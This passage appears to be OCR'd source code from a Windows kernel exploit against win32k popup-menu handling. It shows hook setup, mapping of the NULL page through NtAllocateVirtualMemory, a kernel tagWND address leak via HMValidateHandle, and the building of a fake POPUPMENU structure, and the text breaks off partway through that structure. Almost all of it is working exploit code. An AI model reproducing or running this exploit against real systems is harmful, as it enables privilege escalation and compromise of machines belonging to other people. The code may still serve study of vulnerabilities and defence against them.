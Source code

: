 	/* Creating a main window class */
	xxRegisterWindowClassW(L"WNDCLASSMAIN", 0x000, DefWindowProc);
	hWindowMain = xxCreateWindowExW(L"WNDCLASSMAIN",
		WS_EX_LAYERED | WS_EX_TOOLWINDOW | WS_EX_TOPMOST,
		WS_VISIBLE,
		GetModuleHandleA(NULL));
	printf("Handle of the mainWindow : 0x%08X\n", (unsigned int)hWindowMain);
	ShowWindow(hWindowMain, SW_SHOWNOACTIVATE);

	/* Creating the hunt window class */
	xxRegisterWindowClassW(L"WNDCLASSHUNT", 0x000, xxMainWindowProc);
	hWindowHunt = xxCreateWindowExW(L"WNDCLASSHUNT",
		WS_EX_LEFT,
		WS_OVERLAPPEDWINDOW,
		GetModuleHandleA(NULL));
	printf("Handle of the huntWindow : 0x%08X\n", (unsigned int)hWindowHunt);
	
	/* Hooking the WH_CALLWNDPROC function */
	SetWindowsHookExW(WH_CALLWNDPROC, xxWindowHookProc, GetModuleHandleA(NULL), GetCurrentThreadId());

	/* Hooking the trackpopupmenuEx WINAPI call */
	HWINEVENTHOOK hEventHook = SetWinEventHook(EVENT_SYSTEM_MENUPOPUPSTART, EVENT_SYSTEM_MENUPOPUPSTART, GetModuleHandleA(NULL), xxWindowEventProc,
		GetCurrentProcessId(), GetCurrentThreadId(), 0);

	/* Setting the root popup menu to null */
	printf("Setting the root popup menu to null\n");
	release = 0;
	TrackPopupMenuEx(hMenuList[0], 0, 0, 0, hWindowMain, NULL);

	/* Allocating the memory at NULL page */
	*(FARPROC *)&NtAllocateVirtualMemory = GetProcAddress(GetModuleHandleW(L"ntdll"), "NtAllocateVirtualMemory");
	if (NtAllocateVirtualMemory == NULL)
		return 1;

	if (!NT_SUCCESS(NtAllocateVirtualMemory(NtCurrentProcess(),
		&MemAddr,
		0,
		&MemSize,
		MEM_COMMIT | MEM_RESERVE,
		PAGE_READWRITE)) || MemAddr != NULL)
	{
		std::cout << "[-]Memory alloc failed!" << std::endl;
		return 1;
	}
	ZeroMemory(MemAddr, MemSize);

	/* Getting the tagWND of the hWindowHunt */
	PTHRDESKHEAD head = (PTHRDESKHEAD)xxHMValidateHandle(hWindowHunt);
	printf("Address of the win32k!tagWND of hWindowHunt : 0x%08X\n", (unsigned int)head->deskhead.pSelf);

	/* Creating a fake POPUPMENU structure */
	DWORD dwPopupFake[0x100] = { 0 };
	dwPopupFake[0x0] = (DWORD)0x1; //->flags
	dwPopupFake[0x1] = (DWORD)0x1; //->spwndNotify
	dwPopupFake[0x2] = (DWORD)0x1; //->spwndPopupMenu
	dwPopupFake[0x3] = (DWORD)0x1; //->spwndNextPopup
	dwPopupFake[0x4] = (DWORD)0x1; //->spwndPrevPopup
	dwPopupFake[0x5] = (DWORD)0x1; //->spmenu
	dwPopupFake[0x6] = (DWORD)0x1; //->spmenuAlternate
	dwPopupFake[0x7] = (ULONG)head->deskhead.pSelf + 0x12;  //->spwndActivePopup
	dwPopupFake[0x8] = (DWORD)0x1;  //->ppopupmenuRoot
	dwPopupFake[0x9] = (DWORD)0x1; //->ppmDelayedFree
	dwPopupFake[0xA] = (DWORD)0x1;  //->posSelectedItem
	dwPopupFake[0xB] = (DWORD)0x1; //->posDropped
